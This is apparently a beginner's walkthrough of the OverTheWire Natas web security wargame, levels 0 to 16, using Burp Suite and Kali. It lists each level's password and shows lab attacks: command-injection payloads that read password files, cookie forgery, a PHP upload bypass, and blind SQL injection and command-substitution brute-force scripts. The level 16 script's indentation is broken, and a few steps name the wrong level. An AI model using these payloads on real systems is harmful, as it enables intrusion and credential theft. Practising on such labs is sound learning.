## Natas Labs

## Terminal
Step-1: First you can start the terminal you will see the starting stage of terminal then you need to go that terminal you can access that terminal by " sudo su "

Step-2: After that terninal can ask you the password

Step-3: Password : " kali "

Step-4: then you enter the password you will not able to see that password but it can automatically access

Step-5: It will navigate Home that means Root, it will shows " root@kali "

Step-6: It will shows in red color. It is the simple checking that  you are in root or not and below that root you will see " #  " in red color that means Finally you can start the Terminal



Step-7: Go to Downnloads . In Downloads Go to Burp suite . Then Run the Burp suite 





## Level-0
What you Need to do :
+ Username : natas0
+  Password : natas0
+ Domain : http://natas0.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser (Connection on Foxy proxy extension)

Step 2: Connect to natas0.natas.labs.overthewire.org

Step 3: Then login with username and password



Step 4: You will see the page like this



Step 5: You will need to find the password for level-1

Step 6: Set up the proxy on Burp suite in fire fox browser (Send), Then refresh the page

                     



Step 7: Go to Burp suite, then click on Proxy tab 

Step 8: In that proxy web you will intercept, Then  click on intercept

Step 9: In that intercept you will see the intercept on and intercept off, Then Click on the intercept on (Receive)

                    

 

Step 10:  In that Proxy tab then click on history(HTTP History). Then you will see the natas 0 http link. Then click on that link, Then you will see the request

                          



Step 11: Then right click on that request. you will see the option of export. Then click on send Repeater. 



Step 12: Then click on  Repeater. Whenever once a highlight after send repeater, which is placed in  menus bar



 Step 13: you will see request. Then click on send button. you will see the response.

Step 14: In that response you will see the password for level-1

 

## Level-1
+ Username : natas1
+  Password : 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq
+ Domain : http://natas1.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser (Connection on Foxy proxy extension)

Step 2: Connect to natas1.natas.labs.overthewire.org

Step 3: Then login with username and password

Step 4: You will see the page like this



Step 5: You will need to find the password for level-2

Step 6: Set up the proxy on Burp suite in fire fox browser (Send), Then refresh the page

             

Step 7: Go to Burp suite, then click on Proxy tab 

Step 8: In that proxy web you will intercept, Then  click on intercept

Step 9: In that intercept you will see the intercept on and intercept off, Then Click on the intercept on (Receive)

                   

Step 10:  In that Proxy tab then click on history(HTTP History). Then you will see the natas1 http link. Then click on that link, Then you will see the request

                         



Step 11: Then right click on that request. you will see the option of export. Then click on send Repeater. 



Step 12: Then click on  Repeater. Whenever once a highlight after send repeater, which is placed in  menus bar



 Step 13: you will see request. Then click on send button. you will see the response.

Step 14: In that response you will see the password for level-2

 

## Level-2
+ Username : natas2
+  Password : TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
+ Domain : http://natas2.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser, Connect to natas2.natas.labs.overthewire.org, Then login with username and password

Step 2: You will see the page like this



Step 3: You will need to find the password for level-3

Step 4: Set up the proxy on Burp suite in fire fox browser (Send), Then refresh the page

                  

 

Step 5: Go to Burp suite, then click on Proxy tab 

Step 6:  Then Click on the intercept on (Receive)               

Step 7:  In that Proxy tab then click on history(HTTP History). Then you will see the natas2 http link. Then click on that link, Then you will see the request

Step 8: Then right click on that request. you will see the option of export. Then click on send Repeater. 

Step 9: Then click on  Repeater. Whenever once a highlight after send repeater, which is placed in  menus bar

 Step 10: you will see request. Then click on send button. you will see the response.

Step 11: It shows how to find the password, In that response you will see the file.

 

Step 12: Then foward the link or Disable the Burpsuite, Then Go to firefox browser, Then enter the leve2 link along with file 



Step 13: Then click on that users.txt, Then you will see the password for level-3



## Level-3
+ Username : natas3
+  Password : 3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
+ Domain : http://natas3.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser, Connect to natas3.natas.labs.overthewire.org, Then login with username and password

Step 2: You will see the page like this

Step 3: You will need to find the password for level-4

Step 4: Set up the proxy on Burp suite in fire fox browser (Send), Then refresh the page

                  

Step 5: Go to Burp suite, then click on Proxy tab 

Step 6:  Then Click on the intercept on (Receive)                 

Step 7:  In that Proxy tab then click on history(HTTP History). Then you will see the natas3 http link. Then click on that link, Then you will see the request

Step 8: Then right click on that request. you will see the option of export. Then click on send Repeater. 

Step 9: Then click on  Repeater. Whenever once a highlight after send repeater, which is placed in  menus bar

 Step 10: you will see request. Then click on send button. you will see the response.

Step 11: In that response there is   no password.

 

Step 12: Then foward the link or Disable the Burpsuite, Then Go to firefox browser, Then enter the leve2 link along with robots.txt 



Step 13: Then enter the leve2 link along with /s3cr3t/ 



Step 14: Then click on that users.txt, Then you will see the password for level-3



## Level-4
+ Username : natas4
+  Password : QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
+ Domain : http://natas4.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser, Connect to natas4.natas.labs.overthewire.org, Then login with username and password

Step 2: You will see the page like this



Step 3: You will need to find the password for level-5

Step 4: Set up the proxy on Burp suite in fire fox browser (Send), Then refresh the page

                  

Step 5: Go to Burp suite, then click on Proxy tab 

Step 6:  Then Click on the intercept on (Receive)               

Step 7:  Go to firefox browser, In that output, Then refresh page



Step 8: Go to Burpsuite, In intercept tab, Then you edit referer, Then change natas4 to natas5 in  Raw or pretty in request tab.





Step 9: Then click forward.

Step 10: Go to firefox browser, you will the password for level-5



## Level-5
+ Username : natas5
+  Password : 0n35PkggAPm2zbEpOU802c0x0Msn1ToK 
+ Domain : http://natas5.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser, Connect to natas5.natas.labs.overthewire.org, Then login with username and password

Step 2: You will see the page like this



Step 3: You will need to find the password for level-5

Step 4: Set up the proxy on Burp suite in fire fox browser (Send), Then refresh the page

                  

Step 5: Go to Burp suite, then click on Proxy tab 

Step 6:  Then Click on the intercept on (Receive)              

Step 7:  Go to firefox browser, Then refresh page

Step 8: Go to Burpsuite, In intercept tab, Then you edit cookie, Then change logged in =0 to logged in =1 in  Raw or pretty in request tab.





Step 9: Then click forward.

Step 10: Go to firefox browser, you will the password for level-6



## Level-6
+ Username : natas6
+  Password : 0RoJwHdSKWFTYR5WuiAewauSuNaBXned
+ Domain : http://natas6.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser, Connect to natas6.natas.labs.overthewire.org, Then login with username and password

Step 2: You will see the page like this, Then click on the link



Step 3: you will see the source code



Step 4: Then open natas6 link along with includes/secret.inc

Step 5: Then you will see the blank page, Then inspect that page



Step 6: Then you will see the Scecret password, Then copy that



Step 7: Go back to the previous page, Then you will paste that secret password

Step 8: Then you will get the password for level-7



## Level-7
+ Username : natas7
+  Password : bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
+ Domain : http://natas7.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser, Connect to natas7.natas.labs.overthewire.org, Then login with username and password

Step 2: You will see the page like this



Step 3: You will need to find the password for level-8

Step 4: Set up the proxy on Burp suite in fire fox browser (Send), Then refresh the page

                  

Step 5: Go to Burp suite, then click on Proxy tab 

Step 6:  Then Click on the intercept on (Receive)                 

Step 7:  In that Proxy tab then click on history(HTTP History). Then you will see the natas2 http link. Then click on that link, Then you will see the request

Step 8: Then right click on that request. you will see the option of export. Then click on send Repeater. 

Step 9: Then click on  Repeater. Whenever once a highlight after send repeater, which is placed in  menus bar

 Step 10: you will see request. Then click on send button. you will see the response.

Step 11: In that response there is no password. But it shows how to find the password



Step 12: Then go to firefox browser, Then click home, you will see this



Step 13: Then go to /etc/natas_webpass/natas8 along with home

Step 14: Then you will see the password for level-8



## Level-8
+ Username : natas8
+  Password : xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 
+ Domain : http://natas8.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser, Then Connect to natas8.natas.labs.overthewire.org, Then login with username and password

Step 2: You will see the page like this



Step 3: You will need to find the password for level-8

Step 4: Set up the proxy on Burp suite in fire fox browser (Send), Then refresh the page

                  

Step 5: Go to Burp suite, then click on Proxy tab 

Step 6:  Then Click on the intercept on (Receive)                 

Step 7:  In that Proxy tab then click on history(HTTP History). Then you will see the natas8 http link. Then click on that link, Then you will see the request

Step 8: Then right click on that request. you will see the option of export. Then click on send Repeater. 

Step 9: Then click on  Repeater. Whenever once a highlight after send repeater, which is placed in  menus bar

 Step 10: you will see request. Then click on send button. you will see the response.

Step 11: In that response  it shows how to find the password, Go to view source code



Step 12: Hence to decode the secrete using 

    php -a
    echo base64_decode(strrev(hex2bin('3d3d516343746d4d6d6c315669563362')));



Step 13: Now we decode the secret , copy that secret, Then go to firefox browser paste the secret , Then you will see the password for level-9



## Level-9
+ Username : natas9
+  Password : ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t
+ Domain : http://natas9.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser, Then Connect to natas9.natas.labs.overthewire.org, Then login with username and password

Step 2: You will see the page like this



Step 3: Then click view source code



Step 4: So, we will use (;) to execute multiple commands. We will try to read the password at the next level.

    ;cat /etc/natas_webpass/natas10



Step 5: Then you will see the password for level-10



## Level-10
+ Username : natas10
+  Password : t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
+ Domain : http://natas10.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser, Then Connect to natas10.natas.labs.overthewire.org, Then login with username and password

Step 2: You will see the page like this



Step 3: Then click view source code



Step 4: So, we will use (.*) to execute multiple commands

    .* /etc/natas_webpass/natas11



Step 5: Then you will see the password for level-10



## Level-11
+ Username : natas11
+  Password : UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
+ Domain : http://natas11.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser, Then Connect to natas11.natas.labs.overthewire.org, Then login with username and password

Step 2: You will see the page like this



Step 3: Then click view source code




Step 4: In that source code, data in cookie . So, we will change that data in cookie. 

Step 5: Before that we set up the firefox browser proxy, into Burpsuite(Send). Then go to firefox browser, Then refresh page

Step 6: Go to Burpsuite, then click on intercept on (Receive), Click on that natas11 link Then you will see the request, In a cookie you will see the data. Then decode it. For decode the data we will use Burpsuite or Any other decoder website.



Step 7: It has XOR encoded data. So, We will find the key. So, use online php , Then write php code.

    <html>
    <body>

    <?php

    $xor_encrypted_text = base64_decode("HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg=");
    $variable = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
    $original_text = json_encode($variable);
    function xor_encrypt($a, $b) {
    $outText = '';

    for ($i = 0; $i < strlen($a); $i++) {
        $outText .= $a[$i] ^ $b[$i];
        }
    echo $outText;
    }
    xor_encrypt($xor_encrypted_text, $original_text);

    ?>

    </body>
    </html>



Step 8: Found the key. Then we will write php code.
     
    <html>
    <body>

    <?php

    function xor_encrypt($in) {
    $key = 'eDWo';
    $text = $in;
    $outText = '';

    // Iterate through each character

    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
    
    }

    $variable = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");
    echo base64_encode(xor_encrypt(json_encode($variable)));

    ?>

    </body>
    </html>



Step 9: Then you will see the group of charecters, copy that. Then Go to Burpsuite, Then paste that in data at cookie, Then click on forward.



Step 10: Then you will see the password for level-12



## Level-12
+ Username : natas12
+  Password : yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
+ Domain : http://natas12.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser, Then Connect to natas12.natas.labs.overthewire.org, Then login with username and password

Step 2: You will see the page like this



Step 3: Then you want to upload file but not get password for level-13

Step 4: Then you will see the source code. Found the ext (extention) that means it is a vulnarabilities



Step 5: So change the extention .jpg to .php, In a code by inspecting the source code, or by using Burpsuite.



Step 6: Then you need to upload a file . Create file with name .php by using nano command



Step 7: Then you will upload the file



Step 8: Then you will see the uploaded file, Then click on that file



Step 9:  Then you will see the password for level-13


 
## Level-13
+ Username : natas13
+  Password : trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
+ Domain : http://natas13.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser, Then Connect to natas13.natas.labs.overthewire.org, Then login with username and password

Step 2: You will see the page like this



Step 3: Then click view source code



Step 4:  It accept only image format only , That's why we use BMP file format.

Step 5:  Create file with name .bmp by using nano command



Step 6: File convert into image format by using BMP file format



step 7: Then upload the file. But you will not get the password for level-14



Step 8: Go to Browser send to Burpsuite, Then refresh the page, Return back Browser upload a file Again send to Burpsuite, Then refresh the page 



Step 9: Then edit the properties of file in Burpsuite, Then click on forward



Step 10: It shows like this, Then click on that link, navigate to Burpsuite then click forward



step 11: Then you will see the password for level-14



## Level-14
+ Username : natas14
+  Password : z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
+ Domain : http://natas14.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser, Then Connect to natas14.natas.labs.overthewire.org, Then login with username and password

Step 2: You will see the page like this



Step 3: Then click view source code



Step 4: Then you will OR operation , to find the password,  Then click on that Login.



Step 5:  Do not touch password block, enter in username block only, other wise it will show error

Step 6: Then you will see the password for level-15



## Level-15
+ Username : natas15
+  Password : SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
+ Domain : http://natas15.natas.labs.overthewire.org
## Explination  
Step 1:  Go to Firefox Browser, Then Connect to natas15.natas.labs.overthewire.org, Then login with username and password

Step 2: You will see the page like this



Step 3: Then click view source code



Step 4: Then enter natas16 for chekcing the existing user or not



Step 5: It shows the like this



Step 6: Then you will use Blind SQL injection to get the password for level-16, By using the Brute force attack.

Step 7: Write code like this, In nano editor, Then save the file, Then Run the file by using python filename. Whole process in kali Linux. Because of it has librabraries, we can't Run it online platform.

    import requests
    import re

    characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

    username = 'natas15'
    password = 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx'

    url = 'http://natas15.natas.labs.overthewire.org'

    session = requests.Session()
    current_password = []

    while True:
     for character in characters:
        print("Trying with: " + "".join(current_password) + character)

        response = session.post(
            url,
            data={
                "username": 'natas16" and password like binary "' +
                            "".join(current_password) + character + '%" #'
            },
            auth=(username, password)
        )

        if "This user exists." in response.text:
            current_password.append(character)
            break

     if len(current_password) == 32:
        break

Step 8: It will fetch one by one like loop, By using of Bruteforce attack, Then you will wait until it will get the password for level-16



Step 9: Then you will see the password for level-16



## Level-16
+ Username : natas16
+  Password : hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
+ Domain : http://natas16.natas.labs.overthewire.org
## Explination
Step 1:  Go to Firefox Browser, Then Connect to natas16.natas.labs.overthewire.org, Then login with username and password

Step 2: You will see the page like this



Step 3: Then click view source code

Step 4: Then write a code like this, In nano editor, Then save the file, Then Run the file by using python filename. Whole process in kali Linux. Because of it has librabraries, we can't Run it online platform.

    import requests
    from requests.auth import HTTPBasicAuth

    username = 'natas16'
    password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'

    characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

    output = ''

    url = 'http://natas16.natas.labs.overthewire.org'

    for i in range(32):
          for j in characters:
             command = f"^$(grep -o ^{output+j} /etc/natas_webpass/natas17)A"
             payload = {
            'needle': command,
            'submit': 'Search'
              }
 
            # Use params for GET request
              result = requests.get(
               url,
               auth=HTTPBasicAuth(username, password),
                params=payload
               )

                str1 = result.text

                start = str1.find('<pre>\n') + len('<pre>\n')
                 end = str1.find('\n</pre>')

               if start != -1 and end != -1:
                  str2 = str1[start:end].split('\n')

                     if str2 and str2[0] != 'African':
                            output += j
                            print(output)
                            break

    print("Final Output:", output)

Step 5: It will fetch one by one like loop, By using of Bruteforce attack, Then you will wait until it will get the password for level-17

Step 6: It is slow process, That's why we have more patience to get the password for level-17 


